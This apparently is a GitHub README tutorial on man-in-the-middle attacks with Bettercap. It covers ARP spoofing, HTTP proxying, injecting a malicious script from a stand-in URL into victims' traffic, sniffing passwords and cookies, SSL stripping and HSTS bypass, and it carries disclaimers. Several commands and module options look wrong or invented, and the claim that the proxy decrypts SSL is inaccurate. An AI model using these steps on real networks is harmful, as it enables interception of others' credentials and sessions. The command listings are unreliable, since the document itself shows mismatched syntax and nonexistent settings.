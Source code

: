 # MITM Attack using Bettercap

This project demonstrates a **Man-in-the-Middle (MITM)** attack using **Bettercap**, a powerful network tool that allows penetration testers and security researchers to perform various types of attacks, including packet sniffing, ARP spoofing, and more. This guide explains how to use Bettercap to intercept and manipulate network traffic between a victim machine and a server.

> **Disclaimer**: This repository is for educational purposes only. Always ensure you have proper authorization before testing any network. Unauthorized access to computer networks is illegal and unethical.

## Prerequisites

Before starting, make sure you have the following tools and configurations:

- **Bettercap** installed on your system.
- A **Linux-based** system (Ubuntu preferred) for ease of installation and use.
- A **target machine** (victim) to intercept network traffic.
- Basic knowledge of networking concepts such as ARP and routing.

### Install Bettercap

You can install Bettercap on your system by following the instructions below.

#### On Ubuntu (Linux):

```bash
sudo apt update
sudo apt install bettercap
```
Performing MITM Attack
Step 1: Start Bettercap
Once Bettercap is installed, open a terminal and run the following command:

```bash
sudo bettercap -i eth0
```
Note: Replace eth0 with the network interface you're using. You can check your interfaces with ifconfig or ip a.
This command will start Bettercap and set up your machine to monitor the network traffic.
Step 2: Enable ARP Spoofing
To perform a MITM attack, you need to poison the ARP cache of the victim. This will trick the victim into thinking your machine is the router (or any other target). To enable ARP spoofing, use the following command:
```bash
sudo bettercap -X -I eth0
```
This command will begin the ARP poisoning process and start intercepting the traffic between the victim and the server.
## Step 3: Monitor Traffic
You can now monitor the traffic flowing between the victim and the target. To do this, use the following commands:

```bash
net.probe on
```
This will show all active devices on the network. To capture HTTP traffic, you can also enable HTTP proxy:

```bash
http.proxy on
```
With this, Bettercap will proxy HTTP requests and responses, allowing you to inspect and even modify the traffic.

## Step 4: Manipulate Traffic (Optional)
Bettercap provides a wide range of capabilities for manipulating traffic, such as:

- Injecting custom HTML/JavaScript into web traffic.
- Changing HTTP responses.
- Sniffing passwords and cookies.
For example, you can inject content into HTTP responses:
```bash
http.injectjs https://example.com/js/some-malicious-script.js
```
Or log HTTP requests:

```bash
http.caplets on
```
## Step 5: Stop the Attack
Once you’re done, stop the MITM attack by pressing ```Ctrl+C``` in the terminal. This will halt the Bettercap process and restore the normal ARP table on the network.

# HTTPS and HSTS Bypass Using Bettercap

### 1. Start Bettercap
Begin by launching Bettercap with the appropriate network interface. In this example, we use eth0 as the network interface, but you may need to replace it with your own network interface (e.g., wlan0 for Wi-Fi).

```bash
sudo bettercap -iface eth0
```
### 2. Enable HTTP/HTTPS Proxying
To perform SSL stripping (bypass HTTPS) and capture unencrypted traffic, enable the HTTP proxying module. This allows Bettercap to act as a man-in-the-middle and decrypt SSL traffic.

```bash
set net.sniff.proxy true
set net.sniff.proxy.sslstrip true
```
### 3. Disable HSTS (HTTP Strict Transport Security)
To bypass HSTS, which forces websites to use HTTPS, you can use Bettercap's HSTS bypass feature. This helps in injecting HSTS-bypassing packets to manipulate HTTPS responses.

```bash
set net.sniff.inject_hsts_bypass true
```
### 4. Start Sniffing and Logging Traffic
Now, you can start sniffing traffic on the network. Bettercap will capture all the packets, including those stripped from SSL:

```bash
net.sniff on
```
If you want to save the captured data, you can store it in a .pcap file for later analysis:

```
net.sniff.save /path/to/logs.pcap
```
### 5. Analyze the Captured Traffic
Once you have captured the network traffic, you can analyze the ```.pcap``` file with tools like Wireshark. This will allow you to see all the unencrypted HTTP requests and responses that were originally secured by HTTPS.
These commands will enable Bettercap to strip SSL from HTTPS connections and forward the plaintext HTTP traffic.

## Ethical Considerations
This guide demonstrates how an attacker might intercept network traffic, but it should only be used in a controlled environment, such as a penetration test with permission or within a lab setup. Unauthorized use of MITM attacks against networks without permission is illegal.


## Conclusion

Bypassing HTTPS and HSTS protections is a powerful technique for penetration testing and network security analysis. Using Bettercap, you can intercept HTTPS traffic by stripping SSL and bypassing HSTS protections to observe and manipulate network communications. While this method is highly effective for educational purposes, it's crucial to always perform such activities within a legal and ethical framework. Always ensure you have explicit permission to test and analyze network security, and restrict these techniques to controlled environments like Capture The Flag (CTF) challenges or your own network setups.

By mastering tools like Bettercap, you gain valuable insights into network security vulnerabilities and better understand how attackers might exploit these weaknesses. As a security professional, your responsibility is to use this knowledge to strengthen systems and protect sensitive data.

